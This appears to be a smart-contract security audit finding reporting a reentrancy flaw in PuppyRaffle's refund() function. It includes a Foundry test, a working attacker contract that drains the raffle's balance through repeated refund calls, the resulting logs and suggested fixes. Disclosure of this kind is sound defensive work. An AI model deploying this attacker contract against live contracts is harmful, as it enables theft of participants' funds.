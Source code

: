 **[H-1] The function `PuppyRaffle::refund()` is a potential `Reentrancy Attack` threat.**

**Description:**
The function `PuppyRaffle::refund()` refunds a player if he wishes to withdraw from the raffle before it begins by taking the index number of the player as a parameter. If an attacker creates a malicious smart contract that is able to deposit some ETH to the contract and then withdraw all of it by repeatedly calling the refund function through the malicious smart contract.

```diff
Logs:
+ Starting Attacker Contract Balance:  0
+ Starting Contract Balance:  4000000000000000000
- Ending Attacker Contract Balance:  5000000000000000000
- Ending Contract Balance:  0
```

**Impact:**
An attacker can easily create a malicious smart contract capable of repeatedly calling the refund function after depositing some ETH in it. This can lead to the theft of the funds deposited by the participants of the Raffle.

**Proof of code:**
If we write the following the code in the exisitng test file:-

```javascript
function test_reentrancyRefund() public{
       address[] memory players = new address[](4);
       players[0] = playerOne;
       players[1] = playerTwo;
       players[2] = playerThree;
       players[3] = playerFour;

       puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

       ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
       address attackUser = makeAddr("attackUser");
       vm.deal(attackUser, 1 ether);

       uint256 startingAttackerContractBalance = address(attackerContract).balance;
       uint256 startingContractBalance = address(puppyRaffle).balance;

       //attacker
       vm.prank(attackUser);
       attackerContract.attack{value: entranceFee}();

       console.log("Starting Attacker Contract Balance: ",startingAttackerContractBalance);
       console.log("Starting Contract Balance: ",startingContractBalance);

       console.log("Ending Attacker Contract Balance: ",address(attackerContract).balance);
       console.log("Ending Contract Balance: ",address(puppyRaffle).balance);

}
```

And create the malicious attacker's contract with the following code:-
```javascript
contract ReentrancyAttacker{
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle){
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory  players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal{
        if(address(puppyRaffle).balance >= entranceFee){
             puppyRaffle.refund(attackerIndex);
        }
    }


    fallback() external payable {
        _stealMoney();        
    }

    receive() external payable {
        _stealMoney();
    }
}
```

We get the following results:

```diff
Logs:
+  Starting Attacker Contract Balance:  0
+  Starting Contract Balance:  4000000000000000000
-  Ending Attacker Contract Balance:  5000000000000000000
-  Ending Contract Balance:  0
```

**Recommended Mitigation:**
1. Consider updating `players[playerIndex] = address(0)` first before refunding the entrance fee.

2. Consider using a `Reentrancy Guard` modifier on the `PuppyRaffle::refund()` function to avoid reentrancy attack.
```javascript
modifier nonReentrant() {
    require(!reentrancyGuard[msg.sender], "Reentrant call");
    reentrancyGuard[msg.sender] = true;
    _;
    reentrancyGuard[msg.sender] = false;
}

```

3. It is also recommended to use OpenZeppelin's Reentrancy Guard by using the following code.
```javascript
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract MyContract is ReentrancyGuard {
    // Your contract code here
}

```
